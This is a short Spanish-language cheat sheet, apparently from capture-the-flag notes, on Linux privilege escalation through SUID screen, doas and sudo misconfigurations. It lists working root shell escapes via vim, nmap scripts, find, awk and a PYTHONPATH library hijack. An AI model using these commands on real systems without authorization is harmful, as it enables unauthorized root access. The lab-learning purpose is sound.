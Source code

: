 ### SUID SCREEN 4.5.0 (Local Privilege Escalation)

En caso de que screen-4.5.0  sea SUID:

- [https://www.exploit-db.com/exploits/41154](https://www.exploit-db.com/exploits/41154)
- [https://tryhackme.com/room/madness](https://tryhackme.com/room/madness)

### DOAS BINARIO

En caso de que el binario **doas** tenga permisos SUID podemos intentar lo siguiente:

```bash
doas -u root id
```

en el archivo `/etc/doas.conf` se configura que puedes ejecutar como root:

```bash
permit nopass plot_admin as root cmd openssl
```

## SUDO

```bash
sudo -l
```

* NOPASSWD: La configuración de sudo puede permitir que un usuario ejecute algún comando con los privilegios de otro usuario sin conocer la contraseña.

```bash
$ sudo -l
User demo may run the following commands on crashlab:
    (root) NOPASSWD: /usr/bin/vim
	
sudo vim -c '!sh'
```

* SETENV: Esta directiva permite al usuario establecer una variable de entorno mientras ejecuta algo.

```bash
$ sudo -l

User waldo may run the following commands on admirer:

(ALL) SETENV: /opt/scripts/admin_tasks.sh

sudo PYTHONPATH=/dev/shm/ /opt/scripts/admin_tasks.sh
```

Esto puede servir para library hijacking.

[Mas sobre SUDO y SUID](https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid)

**NMAP**

```bash
echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse

sudo find /bin -name nano -exec /bin/sh \;

sudo awk 'BEGIN {system("/bin/sh")}'

sudo vim -c '!sh'
```
